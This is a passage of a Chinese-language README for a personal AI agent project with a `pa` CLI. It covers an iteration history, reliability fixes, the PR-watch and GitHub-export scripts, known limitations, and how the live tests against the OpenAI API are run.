| 说话的规矩（提示词）、短回复分条发出（Telegram、钉钉）、任务线（跟进、巡检、自动收起、先别提醒）、知识库（Obsidian 能直接打开；多个助手共用；每一笔能撤销；夜里的整理也照看它）、`pa vault` | ✅ 0.9.0 |
| launchd 常驻服务（`pa service`）；`pa eval`：场景评测，先验证评分器本身，再用真实模型多次试验；一次真实模型的评测，发现并补上了提示词里的一处缺口 | ✅ 迭代 6 |
| 系统性优化：整个包通过 mypy strict；属性测试和模糊测试；崩溃一致性（在每一次落盘之后杀进程）和真实进程的端到端测试；CLI 按主题拆分，并延迟加载；数据的生命周期（`pa db`、`[retention]`、每日整理） | ✅ 迭代 7 |
| 一次全新的代码复盘和修复：11 条确认的发现（记忆写入的旁路、请求头带走数据、不会被截断也不会被改写的审批文字、安全读文件、`deny` 对链式命令的处理、租约围栏、3.11 …）和 15 项次要问题，每一条都是先有一个会失败的测试 | ✅ 迭代 8 |
| 长时间运行的进程会遇到什么：空闲时的查询只碰它要的行（部分索引，在大库上从 23 ms 降到 4 µs，查询计划有测试守着）；测试碰不到别的机器和正在运行的 agent（设了一道常设的门，顺着日志发现并修掉了真实的泄漏）；`_follow` 和任务进度索引拆小了（拆完之后做变异，发现并修掉：调用方写的请求头，和我们自己的同名头，同时发了出去）；删掉了没人用的可选依赖 | ✅ 迭代 9 |

### 后续修复与手机连接

这一批后续修复和手机连接方面的改动，分别写在 [RELIABILITY.md](RELIABILITY.md) 和 [MOBILE.md](MOBILE.md) 里：多轮审批的 generation（代数）、审批作废的事务、逐次调用的费用账本、能恢复的记忆文件投影、持久的最终失败通知、做梦的全路径审查、压缩的逐次计费和期限、工具原始结果的检索、语音的接收回执、局域网 / Tailscale 配置，以及任务活动视图。

MCP 工具的结果，用单独的 `error` / `untrusted` 元数据传递状态；远端传回的错误文字，仍然可以标成污点（taint）。连接错误的完整原文，只留在给主人看的诊断里，不再自动进入模型被唤醒时的上下文。

### 本机监测 GitHub 新 PR，和经过检查的 GitHub 导出（`scripts/pr_watch.py`、`scripts/github_export.py`）

两个脚本，不在 `src/personal_agent` 里：它们是开发这个仓库用的工具，不是 agent 的能力。操作手册是 [PR_PLAYBOOK.md](PR_PLAYBOOK.md)，调研和取舍，见 [research/reference-analysis.md](research/reference-analysis.md) 第九节。

- **发现**：`pr_watch.py` 在本机，每 30 秒取一次 PR 列表（轮询：不要公网地址，也不用云端定时任务），发现新 PR，就打印一行 `PR_WATCH_EVENT {…}`；Cursor 监视这个后台终端的这一行，来叫醒对话。这一行，只是门铃，只含编号、提交号、作者和几个标志，不含别人写的标题、正文、分支名；状态存在磁盘上，所以重启不丢事，门铃漏了或者重复了，也无所谓。
- **收进来**：在独立的工作树里 cherry-pick，逐项审阅，在边界内增强，过质量门，再推 origin；PR 最终是 Closed（带链接），不是 Merged。作者不在信任名单里（默认只有仓库所有者）、来自 fork、改了把关用的脚本本身、加依赖，或者改安全默认值的 PR，只审阅，等用户决定。
- **推到 GitHub**：只经 `github_export.py`。GitHub 上的副本，去掉了 `.github/workflows`（令牌没有 `workflow` 权限）；改写是确定的，所以每次都是快进，从不强推，不移动标签。推送之前，只读新提交：作者地址、禁止的文件、私有名单、`.env` 里的值、gitleaks。规则和放行名单，都在仓库之外的私有配置里（`~/.config/pa-export/`）：提交自带的 `.gitleaks.toml`、`.gitleaksignore`、`gitleaks:allow`，一律不读，否则一个提交，就能关掉检查它自己的那道检查。
- **限制**：只有 Cursor 开着、对话还在的时候，才有“叫醒”这一段；一次拉取，看最近创建的 100 个 PR；私有配置，要在每台机器上，自己建。

### 已知限制

- **会话窗口，现在只是兜底**：压缩让对话，在条数窗口占到 80% 的时候，就被摘要，所以窗口（`agent.history_items`，默认 400，从最近的用户消息处对齐，避免切断工具往返），只在压缩连续失败的时候，才真的丢掉前面的条目；日志保留全部。压缩和滑动，都会让提示缓存，在那一刻，失效一次。
- **没有子代理（`delegate`），也没有 run 内的工具结果清理**：一个 run 里，读了很多大结果，上下文只增不减，直到这个 run 结束；下一次唤醒，本来就是新对话，所以影响限于单个很长的 run。
- **压缩之前，不强制先存记忆**：需要长期保存的信息，仍然应该在工作过程中，写入记忆。`search_history` 找人能看见的对话；新增的 `search_tool_history`，按来源、run、call 和分页游标，找原始的工具结果，并重新标记不可信的来源。日志检索，受保留策略约束，不等于永远不丢细节。
- **摘要和做梦，都是模型的判断**：摘要可能漏掉一个细节，做梦可能把一条笔记改得更糟。做梦只有 `memory`、`search_history` 和（知识库开着时）三个笔记工具，每次改动都是带 run 编号的版本，删得太多或没做完会整次撤销（`pa memory restore`），花费也有上限。
- **每个会话，同时只有一个 run，同时最多 `runtime.concurrency`（默认 2）个会话在跑**：一个会话的 run 进行的时候，到达的事件排队，等它结束之后，作为下一批（同一会话连续的消息，合并成一个 run）；两个会话，都在跑长 run 的时候，第三个会话的事件，要等其中一个结束。
- **网页没有系统推送**：SSE 只在页面开着的时候推；Web Push 需要 VAPID 密钥、订阅存储和 Service Worker 的推送处理，没有做。想要被主动叫醒，同时开着 Telegram（`notify.channel = auto` 会选你最近用的、能推送的那个）。
- **iOS 的“主屏幕 App”，不和 Safari 共享 cookie**：在主屏幕 App 里，要再配对一次（`pa web pair` 再生成一个）。
- **网页本身只说 HTTP**：要加密访问，用 `tailscale serve`；`pa doctor` 会提醒。
- **Webhook 要让 GitHub 访问得到**，就得自己转发这一个端口（`tailscale funnel` / 反向代理）。
- **只有四种签名方案**：`github`、`gitlab`（令牌）、`standard`（HMAC，`v1`）和 `generic`；不含非对称签名（`v1a`）、Slack、Stripe 的专有格式。
- **MCP 的资源、提示词、sampling、elicitation、roots、OAuth，都没有接**；图片/音频结果，只留一行说明。需要 OAuth 的远程服务器，目前只能用你自己拿到的令牌，放进 `.env`，再写进 `headers`。
- **没有注册对应的渠道时**，发往它的消息，留在发件箱里（`pa outbox` 可见）；终端的消息，留到下次 `pa chat` 打开。
- **Telegram 只有私聊**：不支持群、频道、视频、文件（PDF 等）和贴纸——会明说“只能读文字、图片与语音”，不会只回答说明文字。
- **语音需要 ffmpeg**（Telegram 语音是 Ogg/Opus）；没有，就把原文件发给 API，失败的时候，提示安装。转写按分钟计费，单条受 `max_voice_seconds` 限制，并计入每日预算；音频不保存。
- **终端和后台服务之间，没有即时通知**：客户端模式，靠 `runtime.poll_s`（默认 1 秒）轮询，所以 `pa ask` 经服务提交，会有至多约一秒的起步延迟。
- **常驻服务只做了 macOS，而且是“登录时”启动**：`pa service` 是 LaunchAgent——你登录之后，它才起来，没有人登录的 Mac 上，它不跑；合上盖子或睡眠的时候，它也睡（接电源时，想不睡，用 `--keep-awake`；电池供电时，不保证）。Linux 没有对应的命令，要自己写一个 systemd 用户单元（`ExecStart=… -m personal_agent serve`、`Restart=on-failure`）。macOS 不让后台任务读桌面 / 文稿 / 下载 / iCloud，这类位置，会被警告，但不会被阻止；后台任务，不继承终端的环境变量（代理用 `--pass-env`）；重启受 launchd 30 秒节流约束，可能要等一会儿。
- **沙箱需要看得见工具链**：只读白名单，默认是系统目录和工作区；放在别处的解释器/工具链，要用 `[sandbox] extra_read` 加上。docker 后端的参数，没有对真实的 daemon 验证过。
- **崩溃测试验证的，是“进程被杀掉”，不是“断电”**：数据库用 WAL 加 `synchronous = NORMAL`。进程被 `kill -9` 的时候，已经提交的，不会丢；断电或系统崩溃的时候，最后几次提交，可能丢失（文件不会损坏）。丢的，是“刚发生的事”，比如一条刚收到的消息，要重发一遍。想要每次提交，都等磁盘，要改 `db.py` 里的这一行（没有做成配置项）。
- **整理只看年龄，不看大小**：没有“库超过多少 GB，就删得更狠”，窗口由你定；`VACUUM` 不自动做（`pa doctor` 提醒，`pa db vacuum` 动手，要先停掉 agent）；`pa db backup` 只备份数据库，记忆和偏好是文件，`config.toml` 和 `.env` 另放。

### 真实模型验证（`tests/live/`，`PA_LIVE=1`）

对真实的 OpenAI API 跑一轮：`PA_LIVE=1 uv run pytest tests/live -q`（27 个测试，约 $0.25 到 $0.35，跑完最后一行会打印实测花费）。它覆盖：

- `pa doctor --live`：工具调用，加第二轮把存档历史（含加密推理项）回放给 API；
- 每次 run 的成本和 API 报告的用量一致，共享的提示缓存 key 让新对话也能命中缓存；
- 跨对话的记忆；中文问中文答、英文问英文答；知道当前时间；
- 技能（先只列描述，需要时才加载）、图片、语音、MCP 工具；
- 设提醒；`shell`：先等主人批准，再在沙箱里运行，拒绝的命令不运行；
- 托管 `web_search`；预算上限在两步之间停下任务；
- 总是新对话的后台任务、压缩、`search_history`、做梦，以及行为评测（`tests/live/test_live_evals.py`，六个内置场景各跑两次）。

只能在你本机验证的：真实的 Telegram（含语音和图片）、iOS Safari 里的“添加到主屏幕”和麦克风权限、docker 沙箱后端。Telegram 的步骤：`pa channels test telegram` → 在 `.env` 填好令牌，`config.toml` 里写 `[telegram] enabled = true` → `pa serve` → 给机器人发一句话 → `pa channels approve telegram 码`；连不上 Telegram 的地区，请设 `[telegram] proxy`。
